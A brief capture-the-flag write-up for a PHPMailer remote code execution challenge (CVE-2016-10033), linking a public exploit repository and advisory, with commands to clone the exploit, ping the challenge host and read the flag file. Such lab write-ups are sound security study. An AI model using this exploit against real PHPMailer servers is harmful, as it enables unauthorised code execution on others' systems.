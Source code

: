 ## PHPMailer (Web Exploitation)

### Proof of Concept
- https://github.com/opsxcq/exploit-CVE-2016-10033

### Reference
- https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html

### How it works
- Download **exploit-CVE-2016-10033**
```
git clone https://github.com/opsxcq/exploit-CVE-2016-10033.git
```
- Step by Step https://github.com/opsxcq/exploit-CVE-2016-10033#exploit
	- Check IP server
	```
	PING chall.ctfs.me (167.99.94.176)
	```
	- Exploitation

	<img src="https://user-images.githubusercontent.com/13828056/40279846-e36eab8e-5c73-11e8-8386-a30ded4f5bd2.png" width="60%"></img>

	- Capture the flag :triangular_flag_on_post:
	```
	>> ls -all | grep flag
	-rw-r--r--  1 root     root         26 Dec 30  2016 .htflag
	>> cat .htflag
	CTFS{}
	```